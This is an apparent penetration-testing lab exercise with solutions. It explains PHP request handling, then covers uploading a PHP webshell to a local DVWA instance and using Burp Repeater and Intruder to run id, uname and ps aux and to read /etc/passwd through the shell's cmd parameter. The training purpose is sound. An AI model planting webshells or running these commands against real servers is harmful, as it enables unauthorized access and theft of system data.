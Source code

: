 # My First Webshell
In this exercise, you will:
- Examine the form and function of a PHP webshell
- Upload a webshell to a vulnerable server
- Use Burp Suite to perform reconnaissance against the compromised host

## Instructions
### First Steps with Webshells
You do **_not_** need to know PHP to assess web applications. However, it's very useful to be familiar with:
- How PHP is inserted into web pages
- How user data is extracted from an HTTP request
- How PHP runs shell commands from server-side scripts

Understanding these concepts will prepare you for later work in web pentesting, which often requires that you modify existing PHP payloads to suit your specific needs.

Open [webshell.php](../webshell.php), then answer the questions below.

---
- Look at the beginning/end of the file. How do you start/end a PHP script?
  > **Solved**: PHP files look like: `<?php /* PHP Code Here */ ?>`. I.e., they start with `<?php`, and end with `?>`.

- What does the variable `$_GET` refer to?
  > **Solved**: The variable `$_GET` refers to the query string of an HTTP GET request.

- Consider the URL: `https://example.com?parameter=value`. 
  - How would you get the value of `param` in PHP?
  > **Solved**: Use: `$_GET['param']`

- Consider the following POST body: `username=hacker&password=null`
  - How would you get the value of `username` in PHP? What about `password`?
  > **Solved**: Use: `$_POST['username']` and `$_POST['password']`.

### Uploading and Exploiting a Webshell

Use **Firefox** to navigate to `http://localhost/vulnerabilities/upload/`.


Then, follow the instructions below.

---

- Upload `webshell.php` to DVWA.

- Launch Burp Suite, and enable Foxy Proxy.

- Intercept a request to `http://localhost/hackable/uploads/webshell.php`.

- Send the intercepted request to Repeater with `Ctrl + R`.

- In Repeater, add the query parameter: `cmd=ls`. You should get familiar-looking output in the response.
  > **Solution**: You'll use a request line like: `GET /hackable/webshell.php?cmd=ls HTTP/1.1`

- Use Repeater to extract the following information from the server:
  - Run `id` and `whoami`
  - Determine the operating system and kernel version with `uname`
  - Read the contents of `/etc/passwd`
  - List all running processes with `ps aux`
  - **Note**: Recall that you must use a `+` or `%20` to send a space in a URL, e.g.: `ls -sail` becomes `ls+-sail` _or_ `ls%20-sail`.
  > **Solution**
  > - To dump `/etc/passwd`: `GET /hackable/webshell.php?cmd=cat%20/etc/passwd`
  > - For user info: `id`: `GET /hackable/webshell.php?cmd=id`
  > - For OS info: `uname`: `GET /hackable/webshell.php?cmd=uname`
  > - For process info: `ps aux`: `GET /hackable/webshell.php?cmd=ps%20aux`

- As a **bonus**, repeat the above exercise with Burp Intruder instead of Repeater.
  > **Solution**
  >   - Send the request from Repeater to Intruder by pressing `Ctrl + I`. 
  >    - Add a position such that your request line looks like: `GET /hackable/webshell.php?cmd=$COMMAND$`. 
  >    - Add the commands you ran above as payloads in Intruder, and click **Start Attack**.
